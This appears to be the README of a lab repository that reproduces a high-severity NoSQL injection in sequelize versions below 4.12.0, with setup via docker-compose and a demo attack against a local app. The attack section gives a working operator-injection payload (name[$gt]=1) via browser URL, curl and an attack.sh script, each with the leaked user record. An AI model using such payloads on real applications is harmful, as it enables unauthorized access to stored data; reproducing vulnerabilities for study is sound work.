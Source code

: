 # NoSQL Injection @ sequelize
- module : sequelize
- version : <4.12.0
- severity: high
- type: nosql-injection

# Installation

`docker-compose up --build`

# Lunch Attack

- ### Browser [open the browser and enter the following url]
    http://localhost:8000/user?name[%24gt]=1
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}

## OR

- ### Curl [open the terminal and run the following]
    curl http://localhost:8000/user?name[%24gt]=1
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}

## OR

- ### Bash [open the terminal in the root dir of this app and run the following]
    bash attack.sh
- the `response` will be {"id":1,"uid":1,"name":"Doe","createdAt":"...","updatedAt":"..."}
